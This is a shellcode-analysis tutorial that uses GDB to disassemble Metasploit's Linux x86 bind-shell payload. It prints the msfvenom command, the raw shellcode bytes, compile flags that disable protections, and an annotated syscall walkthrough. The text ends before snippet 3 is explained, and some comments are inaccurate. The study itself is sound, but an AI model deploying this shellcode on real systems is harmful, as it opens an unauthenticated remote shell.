 # MSF Generated payload analysis

This note is about analysis of metasploit framework generated shellcode.

OS: Ubuntu 16.04 32 bit

Debugger: GDB

Plug-in: pwndbg



## linux/x86/shell_bind_tcp

Generate shellcode:

```bash
$ msfvenom -p linux/x86/shell_bind_tcp -f c LHOST=0.0.0.0 LPORT=4444 -b \x00
```

Output (Payload size: 78 bytes):

```c
unsigned char buf[] =
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x5b\x5e\x52\x68\x02\x00\x11\x5c\x6a\x10\x51\x50\x89\xe1\x6a"
"\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0"
"\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
"\x0b\xcd\x80";
```

Compile `loader.c` file into `msf_bind_shell`executable:

```bash
$ gcc -m32 -fno-stack-protector -z execstack load.c -o msf_bind_shell
```



**Note:** Before launch gdb, I do recommend to use some handy tools to boost this analysis process, cause constantly typing `disassemble` or `x/gbwx $esp/$eip/...` hunts my finger. For example, gdb pwn dev extensions like [pwndbg](https://github.com/pwndbg/pwndbg) or [gef](https://github.com/hugsy/gef), both were very fine gdb plug-in which can give you a colorful prompt at each breakpoint or interrupt your encontered, containing detailed information like register value, stack layout, etc. In this case, I use pwndbg to help me dissect functonality of msf shellcode.



Launch GDB:

```shell
$ gdb -q ./msf_bind_shell
```



Disassemble main function to locate memory address of shellcode entry point:

```shell
(gdb) disassemble main
```

The entry point is located at the last `call` before function `ret`. In my case, the shellcode entry point is at `0x08048477`.

Then, set breakpoint at this location and run it:

```shell
(gdb) break *0x08048477
```

```shell
(gdb) run
```

Now program will hit this breakpoint, step into entry shellcode execution:

```shell
(gdb) stepi
```

If you have [pwndbg](https://github.com/pwndbg/pwndbg) plug-in installed before, you will now have this prompt displayed:

![gdb-pwndbg](https://raw.githubusercontent.com/sparkyvxcx/Shellcode64/master/screenshot/2020-06-15_10-51.png)

Before diving into assembly code, here is a quick rehearsal about each register's functionality when calling syscall, the syscall interface under 32-bit Linux is provided through soft-interrupt `0x80`. The table below describes each register's usage when invoking syscall.

| Register | Usage          |
| -------- | -------------- |
| `EAX`    | Syscall number |
| `EBX`    | Argument 1     |
| `ECX`    | Argument 2     |
| `EDX`    | Argument 3     |
| `ESI`    | Argument 4     |
| `EDI`    | Argument 5     |

Now move on, disassemble this frame by use `disassemble` or `x/43i $esp` command.



Assembly snippet 1:

```assembly
0x0804a040 <+0>:    xor    ebx, ebx ; shellcode entrance
0x0804a042 <+2>:    mul    ebx      ; set both eax, edx to 0x00000000
0x0804a044 <+4>:    push   ebx
0x0804a045 <+5>:    inc    ebx      ; ebx now holds value 1
0x0804a046 <+6>:    push   ebx
0x0804a047 <+7>:    push   0x2
0x0804a049 <+9>:    mov    ecx, esp ; ecx holds stack address which point to value 2
0x0804a04b <+11>:   mov    al, 0x66 ; assign 102 to register al which calling sys_getuid
0x0804a04d <+13>:   int    0x80
```

Above code indicate that first, it zeroes out register `EBX`, so does register `EAX` and register `EDX`, and push `EBX` into the current stack frame, after that, it increments 1 for `EBX` and push it into the stack followed another push to push `0x2` into the stack again. 



Now the stack frame will look like this:

```assembly
         Address      Stack
                  +------------+
          ....    |    ....    |
                  +------------+
esp —▸ 0xbfffef60 | 0x00000002 |
                  +------------+
       0xbfffef64 | 0x00000001 |
                  +------------+
       0xbfffef68 | 0x00000000 | 
                  +------------+
          ....    |    ....    |
                  +------------+
```

Next instruction move `ESP`'s value to register `ECX` and move `0x66` (decimal 102) into 8-bit sub-register `AL` from `EAX`. Now it's clear that the program has `EBX` (Argument 1) holds 1 and `ECX` (argument 2) holds the reference to argument array passed to the sub-function socket with syscall number 102 which stands for [sys_socketcall](https://github.com/torvalds/linux/blob/master/arch/x86/entry/syscalls/syscall_32.tbl) system call.



pwngdb plug-in had register listed out before execute `int 0x80`:

![sys_socket](https://raw.githubusercontent.com/sparkyvxcx/Shellcode64/master/screenshot/2020-06-16_22-47.png)

Scoketcall stands for socket system calls, here is definition:

```c
int socketcall(int call, unsigned long *args);
```

And argument description:

> **call** determines which socket function to invoke.  **args** points to a block containing the actual arguments, which are passed through to the appropriate call.

Possible call values are defined as [follow](https://manpages.ubuntu.com/manpages/bionic/man2/socketcall.2.html):

```c
#define SYS_SOCKET      1       /* sys_socket(2) */
#define SYS_BIND        2       /* sys_bind(2) */
#define SYS_CONNECT     3       /* sys_connect(2) */
#define SYS_LISTEN      4       /* sys_listen(2) */
#define SYS_ACCEPT      5       /* sys_accept(2) */
#define SYS_GETSOCKNAME 6       /* sys_getsockname(2) */
#define SYS_GETPEERNAME 7       /* sys_getpeername(2) */
#define SYS_SOCKETPAIR  8       /* sys_socketpair(2) */
#define SYS_SEND        9       /* sys_send(2) */
#define SYS_RECV        10      /* sys_recv(2) */
#define SYS_SENDTO      11      /* sys_sendto(2) */
#define SYS_RECVFROM    12      /* sys_recvfrom(2) */
#define SYS_SHUTDOWN    13      /* sys_shutdown(2) */
#define SYS_SETSOCKOPT  14      /* sys_setsockopt(2) */
#define SYS_GETSOCKOPT  15      /* sys_getsockopt(2) */
#define SYS_SENDMSG     16      /* sys_sendmsg(2) */
#define SYS_RECVMSG     17      /* sys_recvmsg(2) */
```

Therefore, what this snippet actually does is invoking sub-function [socket](https://manpages.ubuntu.com/manpages/bionic/man2/socket.2.html) function, with actual arguments consist of  `0x2`, `0x1` which stands for `AF_INET` and `SOCK_STREAM`. After execution, this syscall return value is `0x3` a file descriptor and stored it in register `EAX`.




Assembly snippet 2:

```assembly
0x0804a04f <+15>:   pop    ebx        ; ebx now holds 0x2
0x0804a050 <+16>:   pop    esi        ; esi now holds 0x1
0x0804a051 <+17>:   push   edx        ; edx holds 0x0, null terminate following content
0x0804a052 <+18>:   push   0x5c110002 ; 0x5c11 stand for 4444, 0x0002 stand for family AF_INET in little endian format
0x0804a057 <+23>:   push   0x10
0x0804a059 <+25>:   push   ecx        ; push previous stack point (now pointing to 0x5c110002) into stak
0x0804a05a <+26>:   push   eax        ; push previous syscall return value into stack to save file descriptor
0x0804a05b <+27>:   mov    ecx,esp    ; save current stack point to ecx 
0x0804a05d <+29>:   push   0x66       ; push 0x66 (102) into stack
0x0804a05f <+31>:   pop    eax        ; pop 0x66 (102) out of stack and store it in register eax
0x0804a060 <+32>:   int    0x80
```

Again, since `EBX` holds `0x2` the actual function got invoked is sub-function [bind](https://manpages.ubuntu.com/manpages/bionic/man2/bind.2.html), and `ECX` holds the address of the other arguments.

Synopsis from man page:

```c
   int bind(int sockfd, const struct sockaddr *addr,
            socklen_t addrlen);
```

Possible return value:

> On  success,  zero is returned.  On error, -1 is returned, and errno is
> set appropriately.

Stack layout:

```assembly
               Address      Stack
                        +------------+
                ....    |    ....    |
                        +------------+
esp (ecx) —▸ 0xbfffef54 | 0x00000003 | ◂— socket file descriptor                      [0]
                        +------------+
             0xbfffef58 | 0xbfffef60 | ◂— memory address of bind address (0x5c110002) [1] —▸ [3]
                        +------------+
             0xbfffef5c | 0x00000010 | ◂— length of address                           [2]
                        +------------+
             0xbfffef60 | 0x5c110002 | ◂— reference by 0xbfffef58                     [3]
                        +------------+
             0xbfffef64 | 0x00000000 |
                        +------------+
                ....    |    ....    |
                        +------------+
```



Before calling syscall:

![sys_bind](https://raw.githubusercontent.com/sparkyvxcx/Shellcode64/master/screenshot/2020-06-17_10-46.png)



Assembly snippet 3:

```assembly
0x0804a062 <+34>:   mov    DWORD PTR [ecx+0x4],eax
0x0804a065 <+37>:   mov    bl,0x4
0x0804a067 <+39>:   mov    al,0x66
0x0804a069 <+41>:   int    0x80
0x0804a06b <+43>:   inc    ebx
0x0804a06c <+44>:   mov    al,0x66
0x0804a06e <+46>:   int    0x80
0x0804a070 <+48>:   xchg   ebx,eax
0x0804a071 <+49>:   pop    ecx
0x0804a072 <+50>:   push   0x3f
0x0804a074 <+52>:   pop    eax
0x0804a075 <+53>:   int    0x80
0x0804a077 <+55>:   dec    ecx
0x0804a078 <+56>:   jns    0x804a072 <buf+50>
0x0804a07a <+58>:   push   0x68732f2f
0x0804a07f <+63>:   push   0x6e69622f
0x0804a084 <+68>:   mov    ebx,esp
0x0804a086 <+70>:   push   eax
0x0804a087 <+71>:   push   ebx
0x0804a088 <+72>:   mov    ecx,esp
0x0804a08a <+74>:   mov    al,0xb
0x0804a08c <+76>:   int    0x80
0x0804a08e <+78>:   add    BYTE PTR [eax],al
```

